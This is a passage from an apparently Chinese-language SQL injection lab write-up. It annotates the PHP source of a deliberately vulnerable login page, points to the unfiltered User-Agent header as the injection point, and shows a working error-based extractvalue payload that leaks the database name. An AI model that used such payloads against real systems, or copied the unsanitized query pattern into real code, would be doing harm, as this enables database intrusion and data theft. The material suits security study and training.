```php
            fwrite($fp, 'User Agent:' . $uname . "\n");

            fclose($fp);

			# 与数据库进行了交互，但是username和password都进行了转义处理，无法利用
            $sql = "SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
            $result1 = mysql_query($sql);
            $row1 = mysql_fetch_array($result1);
            # 只有成功登录才能触发下面的代码，否则程序执行完毕
            if ($row1) {
                echo '<font color= "#FFFF00" font size = 3 >';
                # 与数据库进行了交互，可以发现没有对”User-Agent“做任何安全过滤，所以$uagent是注入点
                # $IP是在传输层获取的，值的获取并非来自HTTP头部，所以无法利用
                $insert = "INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
                mysql_query($insert);
                //echo 'Your IP ADDRESS is: ' .$IP;
                echo "</font>";
                //echo "<br>";
                echo '<font color= "#0000ff" font size = 3 >';
                echo 'Your User Agent is: ' . $uagent;
                echo "</font>";
                echo "<br>";
                print_r(mysql_error());
                echo "<br><br>";
                echo '<img src="../images/flag.jpg"  />';
                echo "<br>";

            } else {
                echo '<font color= "#0000ff" font size="3">';
                //echo "Try again looser";
                print_r(mysql_error());
                echo "</br>";
                echo "</br>";
                echo '<img src="../images/slap.jpg"   />';
                echo "</font>";
            }

        }

        ?>
```

#### 本地数据库尝试

对于insert语句，任然可以做报错注入，成功获取到数据库信息

```bash
mysql> INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1' or extractvalue(0x7e, concat(0x7e, (select database()))), '2', 3);# ', '2', '3');
ERROR 1105 (HY000): XPATH syntax error: '~security'
```
